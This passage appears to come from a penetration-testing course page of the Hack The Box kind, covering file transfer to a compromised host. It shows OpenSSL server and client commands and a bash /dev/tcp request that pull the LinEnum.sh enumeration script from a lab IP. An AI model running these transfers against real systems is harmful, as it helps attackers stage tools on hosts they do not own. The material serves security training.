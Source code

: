 OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

##### Create certificate

```
W4H33D@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

### Stand up server


```
linux@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### Download file


```
htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Bash (/dev/tcp)


There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

#### Connect to Target's Webserver


```
htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```

### HTTP GET Request


```
htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

### Print the Response


```
htb[/htb]$ cat <&3
```


### PHP


PHP is also very prevalent and provides multiple file transfer methods.
